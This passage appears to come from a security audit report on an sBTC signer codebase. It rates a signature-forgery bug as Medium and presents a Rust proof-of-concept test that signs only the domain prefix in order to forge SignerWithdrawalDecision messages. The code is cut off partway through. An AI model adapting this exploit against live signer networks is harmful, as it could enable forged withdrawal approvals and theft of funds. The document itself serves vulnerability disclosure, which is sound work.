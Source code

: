 However, this bug requires the attacker to be one of the signers (only signers can forward gossip) and requires the signer to induce other signers to sign a signature with only the prefix. So, I consider this bug to be a **Medium**.

## References

None

## Proof of Concept

## Proof of Concept

Add this test case to `signer/src/ecdsa.rs`. This PoC demonstrates that after obtaining the `"SBTC_SIGNER_WITHDRAWAL_DECISION"` signature, it is possible to forge any `SignerWithdrawalDecision` message.

```diff
+    #[test]
+    fn poc_bypass_sign() {
+        let test_private_key_buff: Vec<u8> = vec![
+            0xb5, 0x8c, 0x50, 0xc5, 0x44, 0x42, 0x5f, 0xcc,
+            0x12, 0x3d, 0xe1, 0xfa, 0x15, 0x56, 0x05, 0x2f,
+            0x61, 0x15, 0x35, 0xc2, 0x36, 0x05, 0xcf, 0x84,
+            0x0d, 0xbe, 0xa5, 0x5a, 0x16, 0x84, 0x9e, 0xbe,
+        ];
+        let test_public_key_buff: Vec<u8> = vec![
+            0x0a, 0x24, 0x09, 0xd0, 0xdc, 0x93, 0x19, 0x70,
+            0x77, 0x30, 0xf3, 0x11, 0xc7, 0x92, 0x40, 0x72,
+            0x21, 0xe5, 0x5e, 0xda, 0x19, 0x58, 0x49, 0xa3,
+            0x12, 0xf2, 0xf3, 0x45, 0x7e, 0x21, 0x4f, 0x43,
+            0xa9, 0x90, 0x11, 0x82, 0x4c, 0x42, 0x10, 0x01,
+        ];
+        let keypair = secp256k1::Keypair::from_seckey_slice(secp256k1::SECP256K1, &test_private_key_buff.to_vec()).unwrap();
+        let private_key: PrivateKey = keypair.secret_key().into();
+        let public_key: PublicKey = keypair.public_key().into();
+        assert_eq!(public_key.encode_to_vec(), test_public_key_buff);
+
+        // the signature of "SBTC_SIGNER_WITHDRAWAL_DECISION"
+        let mut hasher = sha2::Sha256::new_with_prefix("SBTC_SIGNER_WITHDRAWAL_DECISION");
+        hasher.update(Vec::new());
+        let empty_prefix_hash = secp256k1::Message::from_digest(hasher.finalize().into());
+        let empty_prefix_sign: Vec<u8> = proto::EcdsaSignature::from(private_key.sign_ecdsa(&empty_prefix_hash)).encode_length_delimited_to_vec();
+        // println!("empty_prefix_sign.len(): {:?}", empty_prefix_sign.len());
+        // println!("empty_prefix_sign: {:02x?}", empty_prefix_sign);
+
+        // test message data
+        let test_data_tag_1_key: Vec<u8> = vec![0b00001010]; // tag1: signature
+        let test_data_tag_1_data: Vec<u8> = vec![
+            0x4c, 0x0a, 0x24, 0x09, 0xef, 0x3f, 0x52, 0x97,
+            0xca, 0x50, 0xc1, 0x07, 0x11, 0x82, 0x80, 0x41,
+            0x63, 0xae, 0x7f, 0x8f, 0xf9, 0x19, 0x60, 0xd9,
+            0xe2, 0x15, 0x03, 0x86, 0xe4, 0xe5, 0x21, 0x61,
+            0x44, 0xe5, 0x8c, 0xef, 0x66, 0x0b, 0xd1, 0x12,
+            0x24, 0x09, 0x26, 0x64, 0xdb, 0xd4, 0x22, 0xdd,
+            0x97, 0xed, 0x11, 0x1e, 0xea, 0xc9, 0xf3, 0x5a,
+            0x80, 0x54, 0x40, 0x19, 0x35, 0x66, 0x84, 0xeb,
+            0x88, 0xc8, 0xf0, 0x2f, 0x21, 0x77, 0x94, 0x99,
+            0x61, 0x3b, 0xb1, 0xe6, 0x8e,
+        ];
+        let test_data_tag_2_key: Vec<u8> = vec![0b00010010]; // tag2: signer_public_key
+        let test_data_tag_2_data: Vec<u8> = vec![
```